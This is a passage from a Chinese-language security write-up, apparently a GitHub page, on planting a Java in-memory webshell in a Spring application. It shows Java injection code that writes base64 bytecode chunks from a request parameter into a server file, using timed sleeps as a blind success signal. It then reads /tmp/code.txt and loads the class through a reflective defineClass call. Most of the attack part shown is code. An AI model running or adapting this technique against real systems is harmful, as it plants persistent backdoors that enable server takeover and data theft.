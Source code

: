内存马字节码最终拆成了8组

4）从 request parameter 获取字节码内容进行写入 - 成功

```java
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Object requestAttributes = classLoader.loadClass("org.springframework.web.context.request.RequestContextHolder").getMethod("getRequestAttributes").invoke(null);
Object request = requestAttributes.getClass().getMethod("getRequest").invoke(requestAttributes);
String code = (String) request.getClass().getMethod("getParameter", new Class[]{String.class}).invoke(request, new Object[]{"user_name"});
File file = new File(file_path);
if (file.exists()) {
    BufferedWriter writer = new BufferedWriter(new FileWriter(file_path, true));
    writer.write(code);
    writer.close();
    Thread.sleep(3000);
}
```

![](./img/1708841768432.png)

重复写入8次，如果连续延时8次，理论上是成功的；但实际情况没有连续延时8次

5）读取字节码进行 defineClass - 失败

带着侥幸的心理进行尝试

```java
try {
    ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
    byte[] fileBytes = Files.readAllBytes(Paths.get("/tmp/code.txt"));
    String base64String = new String(fileBytes, StandardCharsets.UTF_8).replace("\r", "").replace("\n", "");
    byte[] byteArray = base64Decode(base64String);
    Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
    defineClass.setAccessible(true);
    Class clazz = (Class) defineClass.invoke(classLoader, byteArray, 0, byteArray.length);
    clazz.newInstance();
    Thread.sleep(3000);
} catch (Exception ignored) {
    Thread.sleep(5000);
}
```

